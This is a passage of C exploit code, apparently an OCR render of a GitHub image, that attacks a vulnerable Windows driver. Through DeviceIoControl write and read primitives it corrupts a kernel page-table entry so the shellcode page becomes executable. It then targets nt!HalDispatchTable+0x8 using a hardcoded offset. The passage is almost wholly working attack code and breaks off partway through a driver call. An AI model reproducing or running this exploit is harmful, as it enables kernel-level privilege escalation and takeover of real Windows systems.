 ```c
          unsigned long long one13 = 0x4141414141414141;
          unsigned long long two13 = shellcodePte;
          unsigned long long three13 = 0x0000000000000000;
          unsigned long long four13 = taintedPte;

          // Assign the values
          inBuf13[0] = one13;
          inBuf13[1] = two13;
          inBuf13[2] = three13;
          inBuf13[3] = four13;


          // Interact with the driver
          DWORD bytesReturned13 = 0;

          BOOL interact12 = DeviceIoControl(
            driverHandle,
            IOCTL_WRITE_CODE,
            &inBuf13,
            sizeof(inBuf13),
            &inBuf13,
            sizeof(inBuf13),
            &bytesReturned13,
            NULL
          );

          // Error handling
          if (!interact12)
          {
            printf("[-] Error! Unable to interact with the driver. Error: 0x%lx\n", GetLastError());
          }
          else
          {
            printf("[+] Successfully corrupted the PTE of the shellcode page! The kernel mode page holding the shellcode should now be RWX!\n");

            // Offset to nt!HalDispatchTable+0x8
            unsigned long long halDispatch = baseofKernel + 0x427258;

            // Use arbitrary read primitive to preserve nt!HalDispatchTable+0x8
            // Buffer to send to the driver (write primitive)
            unsigned long long inBuf14[4];

            // Values to send
            unsigned long long one14 = 0x4141414141414141;
            unsigned long long two14 = halDispatch;
            unsigned long long three14 = 0x0000000000000000;
            unsigned long long four14 = 0x0000000000000000;

            // Assign the values
            inBuf14[0] = one14;
            inBuf14[1] = two14;
            inBuf14[2] = three14;
            inBuf14[3] = four14;

            // Interact with the driver
            DWORD bytesReturned14 = 0;

            BOOL interact13 = DeviceIoControl(
              driverHandle,
              IOCTL_READ_CODE,
              &inBuf14,
```